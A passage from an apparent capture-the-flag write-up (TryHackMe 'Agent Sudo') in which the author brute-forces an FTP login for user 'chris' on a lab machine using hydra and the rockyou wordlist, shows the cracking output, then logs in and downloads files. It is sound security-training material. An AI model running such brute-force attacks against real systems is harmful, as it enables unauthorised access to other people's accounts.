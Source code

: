 It’s says something about a weak password. So, I’m gonna assume we can brute-force ssh with that username or brute-force FTP with that username. First, let’s try with FTP.

Now, let’s try brute-force it using hydra.

```bash
➜  Agent_Sudo hydra ftp://10.10.30.160 -l "chris" -P /opt/rockyou.txt -vV
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-05-07 19:02:03
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344401 login tries (l:1/p:14344401), ~896526 tries per task
[DATA] attacking ftp://10.10.30.160:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.10.30.160 - login "chris" - pass "123456" - 1 of 14344401 [child 0] (0/0)

---[snip]---

[ATTEMPT] target 10.10.30.160 - login "chris" - pass "censored" - 256 of 14344401 [child 15] (0/0)
[21][ftp] host: 10.10.30.160   login: "chris"   password: "xxxxxxxx"
[STATUS] attack finished for 10.10.30.160 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
```

YES! we found the password. Now, let’s try to login in. SUCCESS. So, let’s download all the files in that into our machine using `the mget command`

![6](/assets/images/thm/agent_sudo/6.png)

